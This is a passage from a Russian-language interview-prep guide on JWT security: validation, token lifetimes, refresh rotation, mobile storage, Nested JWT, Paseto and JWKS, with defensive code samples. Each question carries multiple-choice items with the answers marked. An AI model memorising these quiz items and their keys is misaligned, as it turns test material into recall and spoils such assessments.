> - [x] ID Token потребляется клиентским приложением для идентификации пользователя; его `aud` содержит `client_id` выдавшего клиента; Access Token потребляется Resource Server и имеет `aud` = идентификатор API. | Верное разделение ролей. `aud` — главный индикатор: токен должен использоваться только тем, для кого он предназначен. Клиент проверяет, что `aud == my_client_id` в ID Token; RS проверяет, что `aud == my_api` в Access Token.
> - [ ] ID Token потребляется Authorization Server для внутренней сессии пользователя; его `aud` содержит URL самого AS. | AS не является потребителем выданных им токенов. ID Token предназначен именно для клиента (как RP в OIDC-терминологии), `aud` = client_id, а не URL AS. AS может использовать опциональный `auth_time` и `sid` для управления сессией, но не ID Token как таковой.
> - [ ] ID Token потребляется одновременно клиентом и Resource Server; его `aud` содержит массив из `client_id` и идентификатора API. | OIDC не допускает такого смешения: ID Token — строго для клиента, Access Token — для RS. Смешанное `aud` создаёт уязвимость, поскольку токен с профилем пользователя отправляется в API, которое не должно читать PII.

---

## Q35. (!) Какие best practices при работе с JWT?

**Генерация и подпись:**
- Использовать RS256/ES256 вместо HS256 в распределённых системах
- Для HS256 — секрет минимум 256 бит (32 байта), случайный
- Использовать зрелые библиотеки (JJWT, Nimbus JOSE+JWT) — не реализовывать самостоятельно

**Содержимое токена:**
- Не хранить чувствительные данные (пароли, PAN, PII) в payload без JWE
- Минимальный набор claims — только необходимые
- Всегда устанавливать `exp`, `iss`, `aud`, `jti`

**Валидация:**
- Whitelist разрешённых алгоритмов на сервере
- Никогда не доверять `alg` из заголовка токена
- Проверять `exp`, `iss`, `aud` обязательно
- Использовать Time Clock Skew (leeway) для `exp` — небольшое допущение для синхронизации часов

**Хранение и передача:**
- Access Token — in-memory или sessionStorage (короткоживущий)
- Refresh Token — httpOnly Secure SameSite cookie
- Передавать только через HTTPS
- Authorization header: `Bearer <token>`

**Управление жизненным циклом:**
- Короткий TTL для Access Token (5-15 минут)
- Refresh Token Rotation обязателен
- Реализовать отзыв Refresh Token при logout

> [!mcq]
> - [x] Критически важно: никогда не доверять alg из заголовка токена (whitelist на сервере), всегда проверять exp/iss/aud, не хранить PII в payload без JWE, использовать RS256/ES256 в распределённых системах, держать Access Token TTL 5-15 минут. | Это полный перечень ключевых best practices. Каждый пункт закрывает реальный вектор атаки: alg whitelist → Algorithm Confusion, exp/aud → token reuse/substitution, JWE → payload exposure, короткий TTL → компрометация.
> - [ ] Критически важно: использовать alg из заголовка токена для автоматического выбора алгоритма верификации (гибкость), всегда проверять exp, не хранить PII в payload без JWE, использовать HS256 в распределённых системах для производительности. | Два опасных антипаттерна: доверять alg из токена — это Algorithm Confusion Attack, а HS256 в распределённых системах требует распространения секрета всем сервисам (высокий риск компрометации).
> - [ ] Критически важно: никогда не доверять alg из заголовка токена, всегда проверять exp/iss/aud, не хранить PII в payload без JWE, использовать RS256/ES256; Access Token TTL может быть 24 часа для удобства, если используется HTTPS. | HTTPS не уменьшает риск от долгоживущих Access Token: при компрометации (XSS, утечка) токен остаётся действительным часами. Рекомендуемый TTL — 5-15 минут независимо от транспортной безопасности.
> - [ ] Критически важно: никогда не доверять alg из заголовка токена, проверять только exp (iss и aud — избыточны при HTTPS), не хранить PII без JWE, Refresh Token Rotation опциональна для публичных клиентов. | Проверка iss и aud — не избыточна: без aud возможна Token Substitution Attack (токен сервиса A принимается сервисом B). RT Rotation особенно важна для публичных клиентов (SPA, mobile), у которых нет client_secret.

---

## Q36. Какой должен быть срок жизни Access Token и Refresh Token?

| Тип | Рекомендуемый TTL | Обоснование |
|-----|-------------------|-------------|
| **Access Token** | 5–15 минут | Минимальное окно при компрометации |
| **Refresh Token** | 7–30 дней | Комфорт пользователя vs безопасность |
| **Refresh Token (sensitive)** | 1–24 часа | Финансовые, медицинские системы |
| **ID Token** | 5–60 минут | Только для аутентификации |

**Факторы выбора:**
- Уровень риска приложения
- UX (частота повторного логина)
- Наличие Refresh Token Rotation
- Критичность данных

**Антипаттерн:** долгоживущие Access Token (часы/дни) ради «удобства» — значительный security-риск.

> [!mcq]
> - [ ] Рекомендуемый TTL: Access Token — 7 дней, Refresh Token — 5 минут; такое соотношение снижает нагрузку на Authorization Server. | Соотношение перепутано. Access Token 7 дней — огромное окно для компрометации при краже. Refresh Token 5 минут сводит на нет его назначение (избежать частой аутентификации). Правильное соотношение обратное.
> - [x] Рекомендуемый TTL: Access Token — 5–15 минут, Refresh Token — 7–30 дней; короткий AT минимизирует окно компрометации, длинный RT обеспечивает UX без частой повторной аутентификации. | Верное соотношение. Для sensitive-систем (финансы, медицина) RT уменьшают до 1–24 часа. Короткий AT — основная мера защиты: даже при краже токен быстро истечёт.
> - [ ] Рекомендуемый TTL: Access Token — 24 часа, Refresh Token — 24 часа; равные сроки упрощают логику обновления и не требуют Refresh Token Rotation. | Равные сроки убирают архитектурный смысл разделения AT/RT. Долгоживущий AT — security-риск. RT Rotation полезна именно с долгоживущим RT для детекции кражи; при коротком RT rotation становится тяжёлой: частые логины.
> - [ ] Рекомендуемый TTL: Access Token — 60 минут, Refresh Token — 60 дней; такой подход является стандартом для всех OAuth2 Authorization Server независимо от контекста. | OAuth2 спецификация не задаёт конкретных значений TTL — они определяются security-моделью. 60 минут для AT — на грани допустимого и для высокочувствительных систем слишком долго. «Независимо от контекста» — ошибка: sensitive-системы требуют меньших TTL.

---

## Q37. Стоит ли хранить чувствительные данные в JWT payload?

**Нет**, если не используется `JWE`. Причины:

1. **Payload виден** — Base64URL легко декодировать
2. **Токен хранится на клиенте** — localStorage, cookie, memory — все потенциально уязвимы
3. **Логи** — токены могут попасть в логи access log, debug-вывод
4. **Token Leakage через Referrer header** — если токен в URL

**Что не класть в JWT payload:**
- Пароли, секретные ключи
- Номера карт (PAN), CVV
- Social Security Numbers, паспортные данные
- Медицинские данные

**Что допустимо:**
- `userId`, `username`
- Роли и permissions
- `tenantId`, `organizationId`
- Публичные идентификаторы

**Если нужна конфиденциальность payload** — использовать **JWE** (JSON Web Encryption):
```
eyJhbGciOiJSU0EtT0FFUCIsImVuYyI6IkEyNTZHQ00ifQ.
<encrypted_key>.<iv>.<ciphertext>.<auth_tag>
```

> [!mcq]
> - [ ] В payload JWT безопасно хранить пароль пользователя в открытом виде: подпись HS256 гарантирует, что payload не будет прочитан без секрета. | Подпись защищает целостность (нельзя изменить без секрета), но НЕ конфиденциальность: payload остаётся Base64URL, читается любым, у кого есть токен. Пароли в JWT — грубая ошибка безопасности.
> - [x] В payload JWT без JWE нельзя хранить чувствительные данные (пароли, PAN, SSN, медданные): payload Base64URL-кодирован и читается любым, у кого есть токен; допустимо только non-sensitive (userId, roles, tenantId). | Верно. Правило: в JWS payload — только то, что не будет проблемой при утечке. PII, финансовые и медданные должны оставаться на сервере или шифроваться через JWE (или Nested JWT).
> - [ ] В payload JWT безопасно хранить номер банковской карты (PAN): PCI DSS разрешает хранение PAN в подписанных JWT-токенах при использовании RS256 с 2048-битным ключом. | PCI DSS строго запрещает хранение PAN в открытом виде вне защищённой зоны. Размер RSA-ключа не влияет на конфиденциальность payload (он не шифруется). Для передачи PAN нужно шифрование (JWE) и compliance-сертифицированные решения.
> - [ ] В payload JWT безопасно хранить refresh_token пользователя: он не используется напрямую клиентом и служит только для серверного аудита. | Хранение refresh_token в payload JWT не имеет смысла: сам JWT и есть access token. RT — отдельный токен с отдельной семантикой. Включение его в payload открывает путь к утечке через логи и Referer-header.

---

## Q38. Как JWT используется в OAuth 2.0 и OIDC?

В OAuth 2.0 и OpenID Connect (OIDC) JWT выступает стандартным форматом для двух видов токенов с разными назначениями.

**JWT как Access Token (OAuth 2.0):**

```
Клиент → Authorization Server: запрос токена
Authorization Server → Клиент: {access_token: "eyJ...", token_type: "Bearer", expires_in: 3600}
Клиент → Resource Server: Authorization: Bearer eyJ...
Resource Server: проверяет подпись JWT (без обращения к AS)
```

Типичный payload Access Token:
```json
{
  "iss": "https://auth.example.com",
  "sub": "user-123",
  "aud": ["api.example.com"],
  "exp": 1700003600,
  "iat": 1700000000,
  "jti": "unique-token-id",
  "scope": "read:users write:orders",
  "client_id": "mobile-app"
}
```

**JWT как ID Token (OIDC):**

ID Token — это дополнительный токен, специфичный для OIDC. Он несёт **информацию об аутентификации пользователя**, а не авторизации ресурса.

```json
{
  "iss": "https://auth.example.com",
  "sub": "user-123",
  "aud": "client-app-id",
  "exp": 1700003600,
  "iat": 1700000000,
  "auth_time": 1699999000,
  "nonce": "n-0S6_WzA2Mj",        // защита от replay
  "name": "Alice Smith",
  "email": "alice@example.com",
  "picture": "https://...",
  "email_verified": true
}
```

**Ключевые различия Access Token vs ID Token:**

| | Access Token | ID Token |
|--|--|--|
| Назначение | Авторизация доступа к API | Удостоверение аутентификации |
| Получатель (`aud`) | Resource Server | Клиентское приложение |
| Содержит | Scopes, permissions | Данные пользователя |
| Стандарт | OAuth 2.0 | OpenID Connect |
| Отправляется | В каждом запросе к API | Только при логине |

**Spring Security OIDC:**
```java
// Получение ID Token claims в Spring
@GetMapping("/profile")
public Mono<Map<String, Object>> profile(@AuthenticationPrincipal OidcUser user) {
    return Mono.just(Map.of(
        "name", user.getFullName(),
        "email", user.getEmail(),
        "sub", user.getSubject()
    ));
}
```

> [!mcq]
> - [ ] В OAuth 2.0 JWT Access Token содержит claim `email` — основную информацию о пользователе для Resource Server, позволяющую персонализировать ответы API. | `email` — это typical claim ID Token (OIDC), а не Access Token (OAuth 2.0). AT несёт авторизационную информацию (`scope`, `client_id`), не профиль пользователя. Для профиля используется отдельный `/userinfo` endpoint.
> - [x] В OAuth 2.0 JWT Access Token содержит claim `scope` — список разрешений (например, `"read:users write:orders"`) — Resource Server проверяет наличие нужного scope перед выполнением операции. | Верно. `scope` — стандартный OAuth 2.0 claim (RFC 9068 для JWT Profile для AT). Формат — пробел-разделённый список. В Spring Security мапится в authorities с префиксом `SCOPE_` через JwtGrantedAuthoritiesConverter.
> - [ ] В OAuth 2.0 JWT Access Token содержит claim `nonce` — случайное значение для защиты от replay-атак; без nonce Access Token не принимается Resource Server. | `nonce` — это OIDC claim ID Token (для защиты от replay ID Token). В Access Token nonce не стандартизирован. Для защиты AT от replay используются `jti`, короткий TTL и HTTPS.
> - [ ] В OAuth 2.0 JWT Access Token содержит claim `auth_time` — момент последней аутентификации; Resource Server отказывает в доступе, если `auth_time` старше 24 часов. | `auth_time` — это опциональный claim ID Token в OIDC, показывающий время аутентификации. В AT он не используется. Для ограничения свежести AT служит `exp`, не `auth_time`.

---

## Q39. JWT rotation — скользящий срок действия и silent refresh

**JWT Rotation** — механизм продления жизни сессии без повторного логина пользователя, при сохранении безопасности.

**Проблема:** Access Token имеет короткий срок (15 мин), но пользователь активно работает. Refresh Token долгий (30 дней), но если украден — компрометация на весь срок.

**Silent Refresh (бесшумное обновление):**

```
Пользователь работает:
  → Access Token (15 мин) истекает
  → Клиент АВТОМАТИЧЕСКИ отправляет Refresh Token
  → Authorization Server выдаёт новый Access Token (+ опционально новый Refresh Token)
  → Пользователь не замечает прерывания
```

**Скользящий срок (Sliding Expiration):**

```
Каждое обращение с Refresh Token → сбрасывает таймер Refresh Token
Пример:
  - Refresh Token живёт 30 дней
  - Пользователь заходит каждый день → Refresh Token обновляется, срок сдвигается
  - Пользователь не заходил 31 день → Refresh Token истёк, нужен повторный логин
```

**Реализация Refresh Token Rotation (безопасный подход):**

```
1. При каждом использовании Refresh Token → выдать НОВЫЙ Refresh Token
2. Старый Refresh Token сразу инвалидировать в БД
3. Если старый RT использован повторно → ПОДОЗРЕНИЕ НА КРАЖУ → отозвать ВСЕ RT пользователя
```

**Пример реализации в Spring:**

```java
@Service
public class TokenRotationService {

    @Transactional
    public TokenPair refreshTokens(String refreshToken) {
        RefreshTokenEntity stored = refreshTokenRepo.findByToken(refreshToken)
            .orElseThrow(() -> new InvalidTokenException("Token not found"));

        if (stored.isRevoked()) {
            // Токен уже был использован — подозрение на кражу
            refreshTokenRepo.revokeAllForUser(stored.getUserId());
            throw new SecurityException("Possible token theft detected");
        }

        if (stored.getExpiresAt().isBefore(Instant.now())) {
            throw new InvalidTokenException("Refresh token expired");
        }

        // Инвалидируем старый
        stored.setRevoked(true);
        refreshTokenRepo.save(stored);

        // Выдаём новую пару
        String newAccessToken = jwtService.generateAccessToken(stored.getUserId());
        String newRefreshToken = generateAndSaveRefreshToken(stored.getUserId());
        return new TokenPair(newAccessToken, newRefreshToken);
    }
}
```

**Silent Refresh на клиенте (JavaScript):**
```javascript
// За 30 секунд до истечения access token
const timeToRefresh = (tokenExpiry - Date.now()) - 30_000;
setTimeout(() => {
    fetch('/auth/refresh', { method: 'POST', credentials: 'include' })
        .then(res => res.json())
        .then(({ access_token }) => updateAccessToken(access_token));
}, timeToRefresh);
```

> [!mcq]
> - [x] Silent Refresh — клиент автоматически запрашивает новый Access Token за N секунд до истечения старого, отправляя Refresh Token на Token Endpoint; пользователь не замечает прерывания. | Верно. Silent Refresh обеспечивает непрерывный UX: AT обновляется на фоне без UI-триггера. Обычно запускается setTimeout-ом за 30-60 секунд до `exp`. При Rotation приходит новая пара AT+RT.
> - [ ] Silent Refresh — сервер автоматически продлевает срок действия Access Token через изменение `exp` в БД без повторной подписи; клиент продолжает использовать тот же токен. | JWT — immutable: подпись покрывает header+payload (включая exp). Изменить exp без повторной подписи невозможно. «Продление» требует выдачи нового токена с новым exp и новой подписью.
> - [ ] Silent Refresh — клиент отправляет старый Access Token с заголовком `X-Refresh: true`, сервер проверяет его и возвращает тот же токен с обновлённым сроком действия. | Ни один стандарт OAuth2/JWT не определяет такой заголовок. Продление работает через Refresh Token endpoint по RFC 6749 (grant_type=refresh_token), а не через manipulation старого AT.
> - [ ] Silent Refresh — клиент открывает скрытый iframe к Authorization Server для получения нового токена; этот подход является единственным в SPA, так как fetch-запросы блокируются CORS. | Hidden iframe был актуален до широкого распространения SameSite/CORS; сейчас он deprecated (Firefox, Safari блокируют third-party cookies в iframe). Современный подход — fetch с httpOnly cookie на том же домене, либо refresh_token в authorization code flow with PKCE.

---

## Q40. Хранение JWT в мобильных приложениях — безопасные практики

Мобильные приложения не имеют `httpOnly` cookie, поэтому выбор места хранения JWT критически важен для безопасности.

**Варианты хранения и риски:**

| Хранилище | Платформа | Риски |
|-----------|-----------|-------|
| `SharedPreferences` (незащищённые) | Android | Root-доступ, backup extraction |
| `UserDefaults` (незащищённые) | iOS | Jailbreak, iCloud backup |
| `EncryptedSharedPreferences` | Android API 23+ | Нет при root без проверки integrity |
| `Keychain` | iOS | Лучший вариант на iOS |
| `Android Keystore` | Android | Аппаратный HSM (на поддерживаемых устройствах) |
| `SecureStorage` (Flutter/Xamarin) | Cross-platform | Обёртка над Keychain/Keystore |

**Рекомендованный подход:**

**Android:**
```kotlin
// EncryptedSharedPreferences (Jetpack Security)
val masterKey = MasterKey.Builder(context)
    .setKeyScheme(MasterKey.KeyScheme.AES256_GCM)
    .build()

val securePrefs = EncryptedSharedPreferences.create(
    context,
    "secure_prefs",
    masterKey,
    EncryptedSharedPreferences.PrefKeyEncryptionScheme.AES256_SIV,
    EncryptedSharedPreferences.PrefValueEncryptionScheme.AES256_GCM
)

securePrefs.edit().putString("access_token", accessToken).apply()

// Дополнительно: проверка целостности устройства через Play Integrity API
// Не хранить Refresh Token если устройство скомпрометировано
```

**iOS:**
```swift
// Keychain Services (или через SecureStorage пакет)
let query: [String: Any] = [
    kSecClass as String: kSecClassGenericPassword,
    kSecAttrService as String: "com.example.app",
    kSecAttrAccount as String: "access_token",
    kSecValueData as String: tokenData,
    kSecAttrAccessible as String: kSecAttrAccessibleWhenUnlockedThisDeviceOnly
]
SecItemAdd(query as CFDictionary, nil)
```

**Best practices для мобильных приложений:**

1. **Access Token в памяти** — минимальный срок, не сохранять на диск если возможно
2. **Refresh Token в Keychain/Keystore** — зашифрованное хранилище ОС
3. **Certificate Pinning** — защита от MITM при передаче токенов
4. **Биометрия перед использованием RT** — дополнительный фактор для чувствительных операций
5. **Короткий срок Access Token** — 5-15 минут для мобильных клиентов
6. **Не логировать токены** — проверить crash reporters (Crashlytics) на предмет попадания токенов в логи
7. **Проверка целостности устройства** — Play Integrity API (Android) / DeviceCheck (iOS) перед выдачей RT

> [!mcq]
> - [ ] В мобильных приложениях Refresh Token безопасно хранить в обычном `SharedPreferences` (Android) / `UserDefaults` (iOS): эти хранилища изолированы на уровне приложения от других приложений. | Изоляция от других приложений не защищает от root/jailbreak и от backup extraction. На рутованном устройстве SharedPreferences читается напрямую из XML-файла. Для чувствительных токенов нужны зашифрованные хранилища.
> - [x] В мобильных приложениях Refresh Token рекомендуется хранить в `Android Keystore` (Android) или `Keychain` (iOS): эти хранилища используют аппаратный KeyStore и защищают ключи даже при root/jailbreak на современных устройствах. | Верно. Android Keystore (через EncryptedSharedPreferences) и iOS Keychain — системные защищённые хранилища, использующие аппаратный TEE/Secure Enclave. Ключи не покидают secure hardware, что даёт защиту даже при компрометации ОС.
> - [ ] В мобильных приложениях Refresh Token рекомендуется хранить в `localStorage` через WebView: доступ через JS-интерфейс позволяет единое хранилище для веб и нативной части приложения. | localStorage в WebView уязвим к XSS внутри WebView-контента, backup extraction и root-доступу. Единое хранилище не приоритет — приоритет защита RT, который является самым чувствительным элементом аутентификации.
> - [ ] В мобильных приложениях Refresh Token рекомендуется хранить в обычном файле внутри `app_data` с ручным шифрованием AES-ключом, зашитым в бинарнике приложения. | Ключ зашитый в бинарнике — статический, извлекается reverse engineering-ом (APKTool, ClassDump). Это security-through-obscurity. Правильный подход: ключи генерируются и хранятся в hardware-backed KeyStore/Keychain.

---

## Q41. Что такое Nested JWT (JWE + JWS) и когда применять?

**Nested JWT** — это JWT, в котором payload является другим JWT. Типичная комбинация: **JWS внутри JWE** — сначала подписываем (JWS), затем шифруем (JWE).

**JWE структура (5 частей, разделённых точкой):**

```
JOSE_Header.Encrypted_Key.IV.Ciphertext.Authentication_Tag
```

**Вложенная структура Nested JWT:**

```
Исходные claims
    ↓ Подписываем (JWS, RS256)
JWS Token (eyJ...signed...eyJ)  ← содержит claims + подпись
    ↓ Шифруем (JWE, RSA-OAEP + A256GCM)
JWE Token (eyJ...encrypted)     ← payload виден только получателю
```

**Когда использовать:**

| Сценарий | Решение |
|----------|---------|
| Только аутентичность и целостность | JWS (обычный JWT с подписью) |
| Только конфиденциальность | JWE без вложенности |
| Аутентичность + конфиденциальность | Nested JWT (JWS внутри JWE) |

**Практические примеры:**
- **FAPI (Financial-grade API)** — банковские API требуют JWE для Request Objects
- **Identity assertions** — передача PII (персональных данных) между сервисами
- **Sealed envelopes** — данные зашифрованы для конкретного получателя, но подписаны отправителем

**Пример с Nimbus JOSE (Java):**

```java
// 1. Создаём JWS (подписанный токен)
JWTClaimsSet claims = new JWTClaimsSet.Builder()
    .subject("user-123")
    .claim("ssn", "123-45-6789")   // PII — нужно шифровать
    .expirationTime(new Date(System.currentTimeMillis() + 3600_000))
    .build();

SignedJWT signedJWT = new SignedJWT(
    new JWSHeader(JWSAlgorithm.RS256),
    claims
);
signedJWT.sign(new RSASSASigner(senderPrivateKey));

// 2. Шифруем JWS в JWE
JWEObject jweObject = new JWEObject(
    new JWEHeader.Builder(JWEAlgorithm.RSA_OAEP_256, EncryptionMethod.A256GCM)
        .contentType("JWT")           // cty: JWT — признак Nested JWT
        .build(),
    new Payload(signedJWT)            // подписанный токен как payload
);
jweObject.encrypt(new RSAEncrypter(recipientPublicKey));

String nestedJWT = jweObject.serialize();
// → eyJ... (JWE, нечитаем без приватного ключа получателя)
```

**Ключевой заголовок:** `"cty": "JWT"` в JWE-заголовке сигнализирует, что payload — это JWT (признак Nested JWT согласно RFC 7519).

> [!mcq]
> - [ ] Nested JWT — это последовательное применение двух JWS-подписей (JWS внутри JWS), что обеспечивает двойную проверку целостности разными ключами. | Двойная подпись не даёт конфиденциальности, только дополнительный слой integrity. Nested JWT в общеупотребительном смысле — это именно JWS внутри JWE: подпись + шифрование, что закрывает два разных требования.
> - [x] Nested JWT — это JWS внутри JWE: сначала payload подписывается (целостность + аутентичность), затем подписанный токен шифруется (конфиденциальность); в JWE-заголовке `"cty": "JWT"` сигнализирует вложение. | Верно. Порядок важен: sign-then-encrypt предотвращает атаки, возможные при encrypt-then-sign. Применяется в FAPI (финансовые API), при передаче PII между сервисами, когда нужна и подписанность, и скрытость содержимого.
> - [ ] Nested JWT — это JWE внутри JWS: сначала payload шифруется (конфиденциальность), затем зашифрованный payload подписывается (целостность); такой порядок стандартизирован RFC 7519. | Порядок encrypt-then-sign не рекомендуется для Nested JWT: подпись снаружи шифрования обеспечивает только integrity шифротекста, но не связывает подписанта с самим открытым payload (есть риск unknown key share attacks).
> - [ ] Nested JWT — это массив JWT в одном HTTP-запросе (JWT + JWT), где каждый отвечает за свою функцию: первый — аутентификацию, второй — авторизацию. | Это не Nested JWT, а просто несколько отдельных токенов. Nested JWT — это структурная вложенность: один JWT является payload другого, что даёт новые возможности (sign+encrypt в одном артефакте).

---

## Q42. JWT vs Paseto — почему Paseto создан как альтернатива?

**Paseto** (Platform-Agnostic Security Tokens) — стандарт токенов, созданный как ответ на известные уязвимости JWT. Разработан в 2018 году как более безопасная альтернатива.

**Проблемы JWT, которые решает Paseto:**

| Проблема JWT | Решение Paseto |
|---|---|
| Algorithm confusion (RS256→HS256) | Алгоритм зафиксирован в версии токена |
| `alg: none` атака | `none` алгоритм невозможен |
| Слабые алгоритмы (HS256 с коротким ключом) | Только современные алгоритмы (Ed25519, XChaCha20) |
| Выбор шифрования vs подписи в одном API | Чёткое разделение: `local` (encrypt) и `public` (sign) |

**Версии Paseto:**

```
v1 (legacy): NIST-алгоритмы (AES-CTR, HMAC-SHA384, RSA-PSS) — для совместимости
v2 (рекомендованный): современные алгоритмы (XChaCha20-Poly1305, Ed25519)
v3: NIST + современные (для FIPS-совместимости)
v4: XChaCha20-Poly1305 + Ed25519 (рекомендован для новых проектов)
```

**Типы токенов:**
- `local` — зашифрованный (symmetric encryption, только для получателей с ключом)
- `public` — подписанный (asymmetric, верифицируется публичным ключом)

**Пример Paseto v4:**
```
v4.public.eyJzdWIiOiJ1c2VyLTEyMyIsIm5hbWUiOiJBbGljZSIsImV4cCI6IjIwMjQtMDEtMDFUMDA6MDA6MDBaIn0.<signature>
```

**Когда выбирать Paseto:**

- Новые проекты без требований JWT-совместимости
- Высокие требования к безопасности
- Хотите избежать misconfiguration (нельзя случайно выбрать слабый алгоритм)

**Когда JWT неизбежен:**

- Интеграция с OAuth 2.0 / OIDC (стандарт требует JWT)
- Сторонние Identity Provider (Keycloak, Auth0, Okta)
- Существующая инфраструктура с JWT

**Вывод для интервью:** Paseto безопаснее JWT по дизайну, но JWT — стандарт де-факто в OAuth/OIDC-экосистеме. На практике при правильной конфигурации JWT (строгая валидация алгоритма, RS256/ES256, короткий TTL) разрыв в безопасности минимален.

> [!mcq]
> - [x] Paseto фиксирует алгоритм в версии токена (v4.public = Ed25519), делая невозможными атаки `alg:none` и Algorithm Confusion; JWT позволяет выбирать `alg` в заголовке, что требует строгой серверной валидации. | Верно. Ключевое архитектурное отличие: Paseto отдаёт выбор алгоритма версии токена, а не полю заголовка. Это защищает от misconfiguration by design. JWT требует активной дисциплины (whitelist алгоритмов) для той же безопасности.
> - [ ] Paseto позволяет выбирать алгоритм через поле `alg` в заголовке токена; JWT фиксирует алгоритм в заголовке `JOSE`, делая невозможными Algorithm Confusion атаки. | Всё наоборот: JWT позволяет выбор через `alg`, Paseto фиксирует алгоритм в версии. Именно это фундаментальное различие и является главным security-мотивом создания Paseto.
> - [ ] Paseto использует только симметричное шифрование (AES-256-GCM) для всех версий; JWT использует только асимметричное (RSA, ECDSA), что делает JWT безопаснее. | Paseto поддерживает оба режима: `local` (симметричное encryption через XChaCha20-Poly1305) и `public` (асимметричная подпись Ed25519). JWT тоже поддерживает оба семейства. Утверждение о «только» неверно для обоих.
> - [ ] Paseto полностью заменил JWT в OAuth 2.0 и OIDC стандартах начиная с 2020 года; JWT рекомендуется использовать только в legacy-системах. | OAuth 2.0 и OIDC продолжают использовать JWT как основной формат. Paseto не стандартизирован IETF в этих протоколах и применяется только в custom-реализациях, где команда осознанно выбрала его как более безопасную альтернативу.

---

## Q43. JWKS (JSON Web Key Set) — как работает и Spring Security JwkSetUri

**JWKS** (JSON Web Key Set, RFC 7517) — стандартный формат публикации публичных ключей в JSON. Позволяет Resource Server автоматически получать и обновлять ключи для верификации JWT без ручной конфигурации.

**Структура JWKS endpoint:**

```json
// GET https://auth.example.com/.well-known/jwks.json
{
  "keys": [
    {
      "kty": "RSA",
      "use": "sig",
      "kid": "key-2024-01",
      "alg": "RS256",
      "n": "0vx7agoebGcQSuuPiLJXZptN9nndrQmbXEps2aiAFbWhM...",
      "e": "AQAB"
    },
    {
      "kty": "RSA",
      "use": "sig",
      "kid": "key-2024-02",   // второй ключ при ротации
      "alg": "RS256",
      "n": "sOWv2yuYzaRTn8RsIRs0...",
      "e": "AQAB"
    }
  ]
}
```

**Поля ключа:**
- `kty` — тип ключа (RSA, EC, oct)
- `use` — использование: `sig` (подпись) или `enc` (шифрование)
- `kid` — идентификатор ключа, совпадает с `kid` в JWT header
- `alg` — алгоритм (RS256, ES256)
- `n`, `e` — компоненты RSA публичного ключа

**Как Resource Server использует JWKS:**

```
1. Получить JWT → прочитать kid из header
2. Загрузить JWKS с endpoint AS (кешировать!)
3. Найти ключ по kid
4. Верифицировать подпись JWT этим ключом
5. При kid not found → обновить кеш JWKS (ротация ключей)
```

**Spring Security — настройка через JwkSetUri:**

```java
@Configuration
@EnableWebSecurity
public class ResourceServerConfig {

    @Bean
    public SecurityFilterChain filterChain(HttpSecurity http) throws Exception {
        http.oauth2ResourceServer(oauth2 -> oauth2
            .jwt(jwt -> jwt
                .jwkSetUri("https://auth.example.com/.well-known/jwks.json")
            )
        );
        return http.build();
    }
}
```

```yaml
# Или через application.yml (автоконфигурация):
spring:
  security:
    oauth2:
      resourceserver:
        jwt:
          jwk-set-uri: https://auth.example.com/.well-known/jwks.json
          # Или через issuer-uri (автообнаружение JWKS через .well-known/openid-configuration):
          # issuer-uri: https://auth.example.com
```

**Кеширование JWKS в Spring Security:**

Spring Security кеширует JWKS автоматически через `NimbusJwtDecoder`. При получении токена с неизвестным `kid` — делает один повторный запрос к JWKS endpoint (поддержка ротации ключей).

**Настройка кастомного кеширования:**
```java
@Bean
public JwtDecoder jwtDecoder() {
    return NimbusJwtDecoder.withJwkSetUri("https://auth.example.com/.well-known/jwks.json")
        .cache(Duration.ofMinutes(10))    // кеш публичных ключей
        .build();
}
```

**Ротация ключей через JWKS:**
1. AS публикует новый ключ в JWKS (с новым `kid`)
2. Начинает подписывать новые токены новым ключом
3. Старые токены с `kid` старого ключа продолжают верифицироваться
4. По истечении срока старого ключа — удалить из JWKS
5. RS автоматически обновит кеш при первом запросе с неизвестным `kid`

> [!mcq]
> - [ ] Ротация ключей через JWKS: AS публикует новый ключ с тем же `kid`, что у старого — Resource Server заменяет ключ в кеше и все выданные токены продолжают работать. | Публикация с тем же `kid` сломает верификацию ранее выданных токенов (подписаны старым приватным ключом, публичный ключ заменился). Rotation требует НОВОГО `kid`, чтобы оба ключа сосуществовали во время переходного периода.
> - [x] Ротация ключей через JWKS: AS публикует новый ключ с новым `kid` и начинает подписывать новые токены им; старые ключи остаются в JWKS для верификации ранее выданных токенов; RS обновляет кеш при встрече неизвестного `kid`. | Верный механизм. Оба ключа сосуществуют: старый — для токенов, выданных до rotation; новый — для свежих. После истечения TTL максимального старого токена — старый ключ удаляется. Zero-downtime rotation.
> - [ ] Ротация ключей через JWKS: AS останавливает выдачу токенов, оповещает все RS о смене ключа через webhook, RS инвалидируют кеш и только после этого AS возобновляет выдачу с новым ключом. | Такой подход требует downtime (остановка AS) и распределённой координации через webhooks, что не соответствует stateless JWKS-модели. Преимущество JWKS — именно в hot rotation без координации: механизм `kid` делает это автоматически.
> - [ ] Ротация ключей через JWKS: RS периодически (каждые 5 минут) опрашивает JWKS endpoint и заменяет все ключи в кеше свежими; старые токены после ротации становятся невалидными. | Инвалидация выданных токенов при ротации — это не цель JWKS rotation (наоборот, цель — плавная смена без инвалидации). Регулярный опрос JWKS добавляет нагрузку на AS. Правильный подход — lazy refresh при unknown `kid`.

---

## See also

- [OAuth2](oauth2-interview.md) — протокол авторизации, в котором JWT используется как формат Access Token
- [Spring Security](../frameworks/spring/spring-security-interview.md) — настройка JWT-аутентификации, Resource Server, фильтры безопасности
- [Паттерны аутентификации](authentication-authorization-patterns-interview.md) — сравнение JWT с сессиями, SSO, SAML
- [Application Security](application-security-interview.md) — общие принципы безопасности приложений, XSS, CSRF
- [OWASP Top 10](owasp-top10-interview.md) — классификация уязвимостей, в т.ч. связанных с аутентификацией

- [Application Security](application-security-interview.md)
- [Authentication and Authorization Patterns](authentication-authorization-patterns-interview.md)
- [mTLS (Mutual TLS)](mtls-interview.md)
- [OAuth2](oauth2-interview.md)
- [OWASP Top 10](owasp-top10-interview.md)
- [Secrets Management](secrets-management-interview.md)
